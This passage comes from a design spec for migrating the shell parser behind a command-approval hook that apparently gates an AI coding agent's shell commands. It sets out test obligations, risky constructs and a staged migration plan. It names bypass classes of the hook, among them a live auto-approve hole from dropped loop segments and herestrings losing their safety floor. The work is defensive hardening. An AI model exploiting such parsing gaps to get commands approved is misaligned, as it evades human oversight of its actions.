   the parsed `File`, plus every `Stmt` carrying `Redirs` or a heredoc, is covered by at
   least one leaf's source span — **including nodes in untaken branches**, per I14's static
   surrogate. This does not depend on differential comparison and is the only mechanism that
   can see root cause 2.4. It needs **no cwd**, so it runs on all 189,678 rows.
5. **Differential replay** — the obligation splits by what each check needs, because ~34% of
   rows have a non-existent cwd and a verdict cannot be produced for them:
   - **parse, lowering and coverage** checks MUST run on **all 189,678 rows** (no cwd needed);
   - the **verdict** replay MUST run on the **cwd-resolvable subset**, with skips reported as
     a count and never presented as the whole.

   Every migration step publishes a transition table. Gate: **no transition in the
   less-restrictive direction** under
   `Approve < Abstain < Ask < Reject`. Stated this way rather than "toward `allow`" so that
   `Reject → Abstain` (I1b's forfeiture) is caught rather than passing silently. The one
   permitted exception is a step whose stated purpose is to stop the parser breaking benign
   commands (the pg2-4h7ee class), where each transition MUST be justified individually.

6. **Fuzz** — `FuzzParse` is retained and becomes meaningful via §7's `Raw` decision.
   `FuzzSplitCompound`, `FuzzTokenize` and `FuzzStripHeredocBodies` target functions step 2
   deletes; each MUST be **replaced** by a harness over the seam asserting the same property
   the deleted one asserted, and the replacement invariant MUST be stated in the step that
   deletes it. `FuzzEnumerateSubstitutions` follows the substitution family in step 2a.

## 10. Test obligations for superseded beads

Superseding a bead is only valid if its defect has a test that would catch a regression.
Each superseded bead owes a test **in this refactor**, written against the defect's original
reproducer.

| Bead      | Instance | Test owed                                                                                                                                                                                                           |
| --------- | -------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| pg2-s26v5 | #4       | `(echo ')'; ls)` yields two leaves; `ls` is not truncated                                                                                                                                                           |
| pg2-s26v5 | #5       | `Raw` is an exact source slice (§7); `FuzzParse` idempotence holds against it                                                                                                                                       |
| pg2-4h7ee | #6       | `#` inside a multi-line quoted argument is not a comment; the 41 held rows parse and are annotated with their real verdicts                                                                                         |
| pg2-14vjq | #8       | `while read c; do …; done <<EOF` attributes the heredoc and drops no segment                                                                                                                                        |
| pg2-14vjq | #9       | `cat 2<<EOF` does not leak `2<<EOF` into `Args` as a phantom operand. **NOT** "is heredoc-bearing" — that already passes on `main` (`parser.go:877-880`, `heredoc_test.go:247`), so it could not catch a regression |
| pg2-qvn6a | #10      | `A=<(evil) cmd` recurses `evil`                                                                                                                                                                                     |
| (new)     | #11      | `gosu u sh -c 'a; b'` does not promote `b` to a top-level leaf; no rule constructs command text (I13)                                                                                                               |
| pg2-qkecz | #12, #13 | fixed on `main` FIRST; its cases live in `TestIntegration_HookBypassRegression` and MUST keep passing after the migration                                                                                           |
| pg2-wguam | #2, #3   | existing tests MUST continue to pass unchanged                                                                                                                                                                      |
| pg2-r2rf3 | I2, I3   | existing tests MUST continue to pass unchanged, **including the herestring cases** (`heredoc_test.go:245`, `parser_test.go:1520`)                                                                                   |
| pg2-0q99a | I4       | `TestEnvVars_ApproveOnlyForVerifiedPreserveForm` MUST continue to pass unchanged, **plus** a new mixed-quoting case (§11 risk table)                                                                                |

**Completion gate**: the new front end is valid when the entire existing suite passes
unchanged, the tests above are added and pass, the coverage check (§9.4) is green, and the
replay shows no less-restrictive transition.

## 11. Constructs the migration must not silently change

Each row is an obligation on the lowering, not a footnote.

| Construct                                 | AST support                                                 | Risk if lowered naively                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| ----------------------------------------- | ----------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Herestring `<<<`**                      | `Redirect{Op: WordHdoc}`, **no `Hdoc`**                     | **Less restrictive.** `parser.go:1278` sets `hasHeredoc` for `<<<` and `Heredocs` is deliberately empty (`parser.go:678-679`); `engine.go:307` names the floor "heredoc- or herestring-bearing". Keying `HasHeredoc` off a non-empty `Hdoc` silently drops the Abstain floor for every herestring.                                                                                                                                                                                                   |
| **`ProcessSubstitutions` → `/dev/fd/63`** | `ProcSubst`; the string is fabricated                       | **Both directions.** `tokenize` writes the literal `/dev/fd/63` (`parser.go:1188`) and `engine.isSafeRedirectTarget`'s `devFdPattern` (`engine.go:17`, `:32`) is what stops it demoting the leaf. Emitting ProcSubst source text instead makes `isDynamicRedirectTarget` miss it → mass new Abstains; emitting nothing loses the operand. Also collides with a user-written `/dev/fd/63`.                                                                                                            |
| **`unquote` parity**                      | `expand.Literal`/`syntax.Quote` are stricter                | **Less restrictive.** `parser.go:1213-1241` unquotes only when the token's first and last bytes are the same quote character, so `a'b'c`, `"a"'b'`, `$'x'` and bare `\a` keep their quotes. `envvars.literalValue` (`envvars.go:273-279`) and `isStaticAbsolutePath` (`:296-301`) reject any surviving quote — a true literal expansion makes mixed-quoted values **clear** the predicate that I4 exists to fence. Needs a new test; the existing one covers replace-vs-preserve, not mixed quoting. |
| **`NormalizeCommand`**                    | trivially                                                   | **Off-target but real.** It is not a rule input; it is the persisted analysis grouping key via `asklog.CommandClass` (`asklog/summary.go:52`), the bucketing key for the hook-miss taxonomy. Any leaf-set change re-keys historical buckets. `NormalizeExecutable` has one rule caller (`monorepo.go:72`).                                                                                                                                                                                           |
| **`resolveLoops`**                        | `ForClause`/`WhileClause`/`UntilClause`/`Do` fully model it | **Preserves a live hole.** See §2.4 and pg2-qkecz. The lowering MUST lower loop word lists and every `Stmt.Redirs` on the compound, not discard them.                                                                                                                                                                                                                                                                                                                                                |
| **`unwrapExecPrefix`**                    | post-lowering `[]string` transform                          | A _leading_ `FOO=1 cmd` lands in `CallExpr.Assigns`, but `env FOO=1 cmd`'s lands in `Args` (`parser.go:503-539`). Conflating them breaks pg2-gkd5e's position-independence invariant. This is a correctness obligation, not a latency footnote.                                                                                                                                                                                                                                                      |
| **`SkipGrepPattern`/`SkipJqValueFlags`**  | pure `[]string` helpers (`argflags.go:58`, `:118`)          | Low risk **only** via `unquote` above: they consume lowered `Args`, so the lowering owes exact `unquote` parity. 6 callers.                                                                                                                                                                                                                                                                                                                                                                          |

## 12. Migration plan

Each step is independently landable and independently measurable. Sizes are t-shirt.

| Step | Change                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   | Size   | Measurement owed                                                                                                                            |
| ---- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------ | ------------------------------------------------------------------------------------------------------------------------------------------- |
| −1   | **pg2-qkecz**: fix the loop-terminator and word-list segment drops on `main`. A live P0 auto-approve hole MUST NOT wait for an architecture migration, and fixing it first means the replay compares against a baseline without it.                                                                                                                                                                                                                                                                                                                                                                      | M      | its own replay; cases added to `TestIntegration_HookBypassRegression`                                                                       |
| 0    | Nix config (pg2-61tgf): set `CLAUDE_CODE_SHELL` to the nix bash. Separate repo surface, **no blocking edge** — I11 forbids depending on it.                                                                                                                                                                                                                                                                                                                                                                                                                                                              | S      | none; spot-check that agent workflows still function                                                                                        |
| 1    | Add the dependency (`go mod tidy` + `gomod2nix generate`, commit the toml); add the seam and the **complete** lowering; run both front ends in shadow, log disagreements, keep the old verdict. No behaviour change.                                                                                                                                                                                                                                                                                                                                                                                     | L      | **re-measure latency for the complete lowering — this is §4.1's gate**; disagreement census; the −1.22% leaf delta accounted for row-by-row |
| 2    | Flip the front end. Delete `splitCompound`, `tokenize`, `shellScanner`, `commandStartOffset`, `scanHeredocs`, `StripCommentsPreservingHeredocs`. Apply §7's `Raw` decision. Land guards 1 and 4.                                                                                                                                                                                                                                                                                                                                                                                                         | L      | full replay with transition table; coverage check green; the 41 held rows annotated                                                         |
| 2a   | Migrate the **substitution-scan family**: `scanSubstitutions`, `matchParen`, `indexUnescapedBacktick`, `IsSafeSubstitutionBody`, `ScanSubstitutions`, `ScanSubstitutionsInHeredocBody`, `EnumerateSubstitutions`. This is a **third front end** and step 2 does not compile without it — `matchParen` is called from `scanSubstitutions` (`parser.go:309`, `:326`). `SubstitutionScan.Unparseable` has no AST analogue (a `CmdSubst` either parsed or the whole `File` failed), so it collapses into I1b, and bodies that today desync _locally_ while siblings still earn a Reject will change verdict. | L      | full replay, with the local-desync→whole-command-Abstain transitions enumerated                                                             |
| 3    | Parse-once threading: pass parsed structure through `HookInput`; delete **both** `mustBashJSON(pc.Raw)` sites (`engine.go:226`, `:466`).                                                                                                                                                                                                                                                                                                                                                                                                                                                                 | M      | full replay; I5's `configrules.go:259` test                                                                                                 |
| 4    | Recursion via AST subtrees for substitution and heredoc bodies, keyed on exact source slices (I12).                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      | M      | full replay                                                                                                                                 |
| 5    | Per-rule migrations, one bead each, each deleting a hand-rolled scanner: `docker` (#11, needs the I13 structural entry point), `gitdir.scopeLeaves` **and** `gitdir.containsVarRef`, `envvars`' value scan, `classifyExpansion` (#10). Land guards 2 and 3.                                                                                                                                                                                                                                                                                                                                              | M each | full replay per rule                                                                                                                        |

## 13. Bead disposition

| Bead      | Disposition                                                                                                |
| --------- | ---------------------------------------------------------------------------------------------------------- |
| pg2-qkecz | **NEW, P0, fixed FIRST on `main`** (step −1); not superseded by anything                                   |
| pg2-61tgf | **NEW, P1**, step 0, no blocking edge                                                                      |
| pg2-s26v5 | **superseded** by steps 2 and 4; owes the #4 and #5 tests, and §7 is its required `Raw` decision           |
| pg2-4h7ee | **superseded** by step 2 (comments are native); owes the #6 test                                           |
| pg2-14vjq | **superseded** by step 2 for #8; #9's heredoc half is already closed, so the owed test is the operand leak |
| pg2-qvn6a | **absorbed** into step 5; owes the #10 test                                                                |
| (new)     | instance #11 → step 5, requires I13's structural entry point                                               |
| (new)     | shape-gated approval, deferred per §5.2                                                                    |

## 14. Risks

- **The replay is necessary but not sufficient.** Root cause 2.4 is invisible to it; §9.4's
  coverage check is what covers that gap. Never blanket-annotate; three beads in this chain
  shipped on a blanket plan and were wrong each time.
- **§4.1's latency conclusion is not yet proven** for the complete lowering. Step 1 gates on
  re-measuring it.
- **~34% of corpus rows have a non-existent cwd** and cannot be replayed. Skips MUST be
  reported; the replayable subset MUST NOT be presented as the whole.
- **Hook mode writes the shared production asklog.** Replay offline via
  `setup.NewEngineForCWD` + `EvaluateHook`, or with `XDG_DATA_HOME` redirected, or against a
  `.backup` copy. At the time this spec was written, `cmd_evaluate` opened the store
  read-write and had to be avoided for exactly that reason; bead `pg2-cbihz` closed that gap
  — `evaluate` now opens the asklog read-only, so this specific avoidance no longer applies
  to it (the offline-replay options above remain valid alternatives regardless).
- **`git diff | grep '^-'` finds nothing in these repos** — an external diff driver is
  configured. Use `--numstat` or `--no-ext-diff`.
- **`FOO=(a b) cmd` regresses to Abstain.** Safe direction, real loss, MUST appear in the replay.
- **I1b forfeits leaf-level Rejects** on the 63 unparseable rows. §9.5's gate wording is what
  makes that visible.
- **The docker/nix/safecmds text re-entry guard is already inert.** `docker.go:155` pushes
  `Expression: normalizeExpr(strings.Join(args, " "))` — the args _without_ `docker` — which
  can never equal a nested inner `docker run …`. The design MUST NOT lean on it; I13 replaces it.
- **Dialect divergence that parses cleanly in both shells** is not fixed by this design, only
  made visible. It is unobserved in 189,678 rows, and step 0 closes it in practice.

## 15. Scope

**In**: the seam, the complete lowering, the substitution-family migration, parse-once
threading, the fail-safe contract, the `Raw` decision, the enforcement guards, the coverage
check, the migration plan, the §10 tests, and the child beads.

**Out**: rule-chain policy, including shape-gated approval (§5.2); fixing instances #4-#11
ahead of the strategy; zsh support. **Not out but ordered first**: pg2-qkecz.
